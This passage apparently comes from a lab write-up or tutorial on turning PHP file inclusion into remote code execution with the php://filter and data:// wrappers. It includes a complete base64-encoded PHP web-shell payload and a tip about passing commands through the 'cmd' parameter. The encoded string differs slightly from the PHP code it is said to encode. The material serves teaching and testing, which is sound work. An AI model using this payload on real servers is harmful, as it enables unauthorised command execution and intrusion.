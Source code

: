 PHP wrappers can also be used not only for reading files but also for code execution. The key here is the `php://filter` stream wrapper, which enables file transformations on the fly. Take the PHP base64 filter as an example. This method allows attackers to execute arbitrary code on the server using a base64-encoded payload.

We will use the PHP code `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` as our payload. The value of the payload, when encoded to base64, will be:
```php
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

|   |   |   |
|---|---|---|
|**Position**|**Field**|**Value**|
|1|Protocol Wrapper|php://filter|
|2|Filter|convert.base64-decode|
|3|Resource Type|resource=|
|4|Data Type|data://plain/text,|
|5|Encoded Payload|PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+|

In the table above, `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+` is the base64-encoded version of the PHP code. When the server processes this request, it first decodes the base64 string and then executes the PHP code, allowing the attacker to run commands on the server via the "cmd" GET parameter.
	![](Pasted%20image%2020250122035526.png)

*Note:* 
	It is important to not include the **&cmd=whoami** in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.